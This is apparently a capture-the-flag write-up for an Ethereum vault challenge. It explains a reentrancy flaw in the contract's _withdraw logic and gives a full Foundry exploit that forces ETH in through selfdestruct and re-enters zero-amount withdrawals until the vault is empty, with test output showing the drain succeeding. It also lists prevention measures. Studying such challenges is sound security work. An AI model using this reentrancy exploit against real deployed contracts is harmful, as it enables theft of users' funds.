 ## Tool Used:
Foundry

## Github link:
* Private Repo: https://github.com/pratraut/hats_ctf_challenge2
* GitFront link to share above repo: 

## Solution:

* Contract's `ERC4626ETH.sol` function - `withdraw` OR `redeem` is vulnerable to re-entrancy.
* Both function `withdraw` AND `redeem`, uses `_withdraw` as common function for performing withrawal/redeem operation.
* Inside `_withdraw` function, Its calculating excess ETH by (total_ETH_balance - total_supply_of_VCT_Token) and this excess ETH will be transfer to actual owner of the vault.
* Vulnerable code from `_withdraw` function:
```solidity
uint256 excessETH = totalAssets() - totalSupply();

_burn(_owner, amount);

Address.sendValue(receiver, amount);
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
As we can see, there are two ETH transfers - one with `amount` and other with `excessETH`. If we can somehow put `excessETH` transfer in call stack while doing reentrancy from the external call we got from first ETH transfer i.e., `amount` transfer, we can drain the vault. To get same `excessETH` value for each reentrancy call, we need `amount` to be equal to zero. So that first ETH transfer wont affect the `excessETH` value for each reentrancy call.
* To get an extra ETH in the contract, there are two ways. One way is using `deposit` OR `mint` function, which will mint `VCT` Token and also increasing ETH balance of a vault. Other way is by forcefully transferring ETH to a vault by self-destroying some dummy contract which is having some ETH. This will increase ETH balance in a vault but not VCT Token supply.
* To get some excess ETH to transfer back to owner of the vault, we need to use 2nd way i.e, forcefully transfering ETH by self-destroying contract.
* We can transfer 1 ETH forcefully. So now we have 2 ETH in a vault and 1 VCT Token(owned by original owner of vault).
* To make balance of vault to 0 ETH, so that we can capture the flag, we need to understand below snippet from `_withdraw` function.
```solidity
function _withdraw(
    address caller,
    address payable receiver,
    address _owner,
    uint256 amount
) internal virtual {
    if (caller != _owner) {
        _spendAllowance(_owner, caller, amount);
    }

    uint256 excessETH = totalAssets() - totalSupply();

    _burn(_owner, amount);

    Address.sendValue(receiver, amount);
    if (excessETH > 0) {
        Address.sendValue(payable(owner()), excessETH);
    }

    emit Withdraw(caller, receiver, _owner, amount, amount);
}
```
1. First check - `if (caller != _owner)`, since there is no way to get an approval from actual owner, we need to bypass this check by having `caller == _owner. Both vaules are attacker controlled.
2. `uint256 excessETH = totalAssets() - totalSupply();`- Since we have 2 ETH in vault and 1 VCT Token, we get `excessETH = 2 - 1 = 1`. So we get extra ETH to send it back to vault owner.
3. `_burn(_owner, amount);` - In order to bypass burn function, we need to pass `amount = 0` and `_owner = contract_address_of_attacker`. Hence `caller` should also be an address of the attacker's contract. This `_burn` function will not block us when `amount = 0`.
4. `Address.sendValue(receiver, amount);` - Since `amount` is zero, it will send 0 ETH to reciever, As `Address.sendValue()` function is performing `call` on provided address, we get an external call to receiver, which we can make use to re-enter the vault. So this `receiver` address must be attacker controlled contract address, which will let us use `fallback` function when transfering ETH using `call` function.
5. When `excessETH > 0`, it will transfer excessETH to vault owner, which is decrementing balance of vault in ETH.
```
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
6. After step 4, we will accept the 0 ETH transfer from vault in `fallback` function of attackers contract. Which will keep count on the number of times we need to call `withdraw` function to transfer all 2 ETH from contract. In this case it need to call one more time. Since during first `_withdraw` call, transfer of 1st ETH is stored inside call stack. In second call of `withdraw` from fallback function, it will store 2nd ETH transfer inside call stack. After this, no need to re-enter `withdraw` function. Once it will execute, all two transfer from call stack, all 2 ETH are sent to vault owner.
7. Once balance of vault is zero, we can call `captureTheFlag` function with attacker address.

**Note:** Here we have used 1 ETH for forcefull transfer to get `excessETH` of 1 ETH. But we can also use lower ETH (< 1 ETH), say `0.1 ETH`, so we get `0.1 ETH` as `excessETH`. Now we have to re-enter, `1 ETH / 0.1 ETH = 10` times.

## Prevention:
This vulnerability can be prevented by two ways:
* Using `ReentrancyGuard` for vulnerable function `withdraw` OR `redeem`.
* Having check for `assets` OR `shares` parameter of `withdraw` and `redeem` function respectively to be greater than zero.


## Exploit contract:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IVault {
    function withdraw(
        uint256 assets,
        address receiver,
        address owner
    ) external returns (uint256);
    function captureTheFlag(address newFlagHolder) external;
    function flagHolder() external returns (address);
}

contract SelfDestructable {
    constructor() public payable {}
    function destruct(address to) public {
        selfdestruct(payable(to));
    }
}

contract Attacker {
    IVault vault;
    uint cnt = 0;   // Counter to keep track of number of calls for reentrancy

    constructor(address victim) public payable {
        vault = IVault(victim);
    }

    // Fallback function to receive external call from vault contract
    fallback() external payable {
        if (msg.value == 0) {
            cnt += 1;
        }
        if (cnt <= 1) {
            vault.withdraw(0 ether, address(this), address(this));
        }
    }

    function attack(address flagHolder) public {
        // Forcefully transfer 1 ETH to vault by selfdestructing
        SelfDestructable d = new SelfDestructable{value: 1 ether}();
        d.destruct(address(vault));

        // Calling withdraw on vault with assets = 0 and receiver = attackers contract address
        vault.withdraw(0 ether, address(this), address(this));
        require(address(vault).balance == 0, "vault balance is not zero");
        // Capture the flag, at this moment vault balance is zero        
        vault.captureTheFlag(flagHolder);
        console.log("Flag Holder =", vault.flagHolder());
    }
}
contract CTFTest is Test {
    function setUp() public {       
    }

    function testExploit() public {
        // Vault Address
        address victim = 0x8043e6836416d13095567ac645be7C629715885c;
        // Loading vault with 1 ETH
        vm.deal(victim, 1 ether);
        // Attackers EOA Address
        address attacker_eoa = 0xF5BED21BD285CBe352737F686766cCC19BeE7acC;
        // Loading attackers EOA with 1 ETH
        vm.deal(attacker_eoa, 1 ether);
        // All calls will go from attackers EOA
        vm.startPrank(attacker_eoa);
        console.log("Balance before victim:      ", victim.balance);
        console.log("Balance before attacker EOA:", attacker_eoa.balance);
        // Deploying attacker's contract
        Attacker attacker = new Attacker{value: 1 ether}(victim);
        console.log("Balance before attacker:    ", address(attacker).balance);
        
        // Starting the attack
        attacker.attack(attacker_eoa);

        console.log("Balance after victim:      ", victim.balance);
        console.log("Balance after attacker EOA:", attacker_eoa.balance);
        console.log("Balance after attacker:    ", address(attacker).balance);

        // Check to see if attack is successfull
        assertEq(victim.balance, 0);
    }
}
```
### Command to run - fork environment: 
`forge test -c ./test/CTF.t.sol --fork-url https://ethereum-goerli-rpc.allthatnode.com -vvvv`
```console
Running 1 test for test/CTF.t.sol:CTFTest
[PASS] testExploit() (gas: 501031)
Logs:
  Balance before victim:       1000000000000000000
  Balance before attacker EOA: 1000000000000000000
  Balance before attacker:     1000000000000000000
  Flag Holder = 0xF5BED21BD285CBe352737F686766cCC19BeE7acC
  Balance after victim:       0
  Balance after attacker EOA: 0
  Balance after attacker:     0
```
